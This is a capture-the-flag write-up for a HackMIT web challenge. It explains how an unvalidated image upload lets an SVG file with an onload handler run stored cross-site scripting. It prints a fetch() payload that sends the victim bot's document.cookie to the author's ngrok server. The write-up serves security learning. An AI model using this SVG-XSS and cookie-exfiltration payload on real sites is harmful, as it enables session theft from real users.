







# Bakery

tl;dr: The image upload feature could be abused to upload content that could allow you to execute your own JavaScript and exfiltrate Vishy's Cookies.

## The Briefing

To celebrate HackMIT's 10th birthday, you've decided to order a very special cake from the HackBakery!! Come visit [HackBakery](https://bakery.hackxgpt.com/u/Aathish04_a74704) to place your order. Some say their cookies are the best in the world, though they might be a little hard to come by 👀.

## Stage 1 - Reconnaissance

From the prompt, it seems like we'll have to find some kind of hidden cookie.

Let's try to find as much information as we can about the target site.

When we visit the link, we're greeted with the following page:



It looks like we can enter some basic information like our First and Last Name, the delivery date, and upload a file to the server.

And just like the briefing implied, we don't have any cookies to play around with here. Finding them will be more difficult.

Having a look at the source code for the page, we find a very interesting comment:


So we now know our exploit will have to leverage the lack of file validation on the server end.

Before we fill in any form data, let's start analysing the requests sent back and forth from our system to the website using a tool like [BurpSuite](https://portswigger.net/burp).

I'll enable the `Intercept` feature, since I think it will be useful to look at and modify the requests before they leave my system.

Filling in every piece of information and uploading a dummy `.png` file, we see:



We see what we expected to see - all the data neatly packaged into a `POST` request.

We let this request go through, and we get the following page in response:



Three things stood out to me, and only two of them turned out to be relevant.

1. Vishy would apparently see our order shortly.
2. This page was using an `<object>` tag to display the image we uploaded, which was renamed.
3. The `name`, `date` and `size` were being set by Javascript on the client side.

Of these observations, the relevant ones turned out to be the fact that Vishy would see our order soon, and that the page was using an `<object>` tag to display the image we uploaded.

The fact that Vishy would see our order probably meant that they had the cookie that we so desparately desired. This seems like an XSS challenge, where we exploit a [Cross-Site-Scripting](https://owasp.org/www-community/attacks/xss) vulnerability on a site and get our target (in this case poor old Vishy) to visit that site and run JavaScript on behalf of them.

I found the fact that the page used `<object>` tags to display our image a little odd - surely a basic `` tag would suffice right? This got me thinking about what kind of potentially malicious files one could upload and maybe have displayed on the site.

## Stage 2 - Initial Access

I'd done a little work with SVG files for other projects, and I had a hunch I could execute arbitrary Javascript using them.

First, I tried uploading a normal SVG file (one of the samples from dev.w3.org [here](https://dev.w3.org/SVG/tools/svgweb/samples/svg-files/)) to see what response I would get.



Cool, our file went through!

Now, let's see if we can get some Javascript to execute once the SVG has been loaded.

Let's add an `onload` attribute to the `svg` tag of our file:
```svg
<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 100 100" onload="alert('hello world!')">
```

Now, after uploading the file, we should get an alert on our screen.

Even before uploading the file to the server, just rendering it on the data entry page results in an XSS. I'm taking this to be a good sign, though it's no guarantee of anything ;)



Now, lets see if any sanitisation is performed on the server's side to remove the malicious alert:



Bingo! We get the alert that we want!

## Stage 3 - Exploitation

Now let's craft a line of JavaScript that will get the `document.cookie` and send it to a server we control through a request.

There are many tools online that allow you to do stuff similar to this - tools like `PostBin` will give you a URL that you can make requests to from anywhere and display the results of those requests. However, I faced some issues with it not setting its CORS headers to allow cross-origin requests, so I decided to take full control and host my own simple Python HTTP server and use [`ngrok`](https://ngrok.com/) to expose it to the rest of the internet.

I used the Python3 implementation from [this](https://stackoverflow.com/a/21957017) StackOverflow Answer, and it worked amazingly.

Once my server was running, I asked `ngrok` to connect it to the public internet and give me a URL I could make requests to, and it gladly obliged:


Now, to make a request to this endpoint using Javascript, we can use the `fetch()` API.

We simply pass the `fetch()` function what URL we need to make a request to. Even though it isn't very secure, it's easiest to use a GET request to transmit data this way, so let's just append the cookie to the endpoint:

`fetch(`https://<redacted\>.ngrok-free.app?cookie=`+document.cookie+' recieved')`

This should make a request to the endpoint we set up with the query parameter `cookie` corresponding to Vishy's cookie and after it the text ` recieved`.

Editing the `onload` attribute to execute this Javascript, we finally have our payload!

Let's upload it and monitor our server for any activity.



Wonderful! We see that we get 3 requests to our server.

Two of these were because of us visiting the page - once when we uploaded the file and the second when we visited the preview page.

The third is Vishy looking at our order and letting their cookies be exfiltrated to our server!

Opening up NGrok Inspector to take a closer look at the requests, we find that we did, indeed get the flag as part of Vishy's cookie!


We enter the flag into the Command Centre, and we're good to go!